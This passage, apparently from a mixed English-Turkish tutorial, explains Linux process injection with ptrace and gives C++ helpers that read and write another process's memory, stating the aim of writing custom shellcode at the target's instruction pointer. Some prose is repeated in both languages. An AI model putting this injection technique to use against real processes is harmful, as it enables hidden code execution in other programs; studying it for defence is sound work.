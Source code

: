 Then we read full `sizeof(long)` chunks:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

Gördüğünüz gibi, burada hedef işlemin belirli bir bellek adresinden bir `long` (genellikle `64-bit` sistemlerde `8 bayt`) okuyoruz. Ardından, okunan veri `memcpy` kullanılarak tampon içine kopyalanır. Bu işlem, tüm `sizeof(long)` uzunluğundaki bloklar okunana kadar devam eder.   

Daha sonra kalan baytları ele alırız:   

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

Mantık basittir: Eğer uzunluk (`len`) `sizeof(long)`'un katı değilse, okunması gereken ekstra baytlar olabilir. Fonksiyon, bu kalan baytları okumak için bellekte bir `long` daha okur ve sadece gerekli baytları tampona kopyalar.   

So, as a result, the entire memory block (`len` bytes) from the target process starting at `addr` is now stored in `buffer`.      

Sonuç olarak, hedef işlemin belirli bir adresinden başlayan `len` baytlık tüm bellek bloğu `buffer` içine kaydedilir.    

`PTRACE_POKEDATA` ile, özel shellcode'umuzu hedef işlemin belleğine `RIP` adresinde enjekte ediyoruz.     

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```
